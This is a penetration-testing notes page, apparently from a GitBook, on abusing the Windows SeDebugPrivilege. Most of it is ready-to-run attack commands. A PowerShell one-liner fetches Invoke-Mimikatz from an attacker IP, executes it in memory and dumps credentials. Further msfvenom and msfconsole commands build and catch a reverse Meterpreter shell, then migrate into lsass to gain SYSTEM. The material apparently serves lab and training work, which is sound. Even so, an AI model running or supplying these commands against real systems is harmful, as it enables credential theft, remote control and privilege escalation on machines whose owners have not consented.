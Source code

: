 # SeDebugPrivilege

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sedebugprivilege-3.1.9" %}

It allows the holder to **debug another process**, this includes reading and **writing** to that **process' memory.** There are a lot of various **memory injection** strategies that can be used with this privilege that evade a majority of AV/HIPS solutions.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Mimikatz

{% code overflow="wrap" %}
```bash
PS> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.38/post/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds
```
{% endcode %}

### Meterpreter&#x20;

{% code overflow="wrap" %}
```bash
# Create a meterpreter shell
Kali> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.38 LPORT=1236 -f exe -o mtp1236.exe 

# Start a listener 
Kali> 
sudo msfconsole -q -x "use exploit/multi/handler;set PAYLOAD windows/x64/meterpreter/reverse_tcp;set AutoRunScript post/windows/manage/migrate;set LHOST 10.10.14.38;set LPORT 1236;run -j"

# Run a meterpreter shell
CMD> .\mtp1236.exe

# Check uid and privilege
meterpreter> getuid
meterpreter> getprivs

# Process migration to a process running as NT/SYSTEM 
meterpreter> pgrepp lsass 
636
meterpreter> migrate 636

# Check uid and privilege again
meterpreter> getuid
meterpreter> getprivs
```
{% endcode %}

### Other exploitations&#x20;

[https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)\
[https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)\

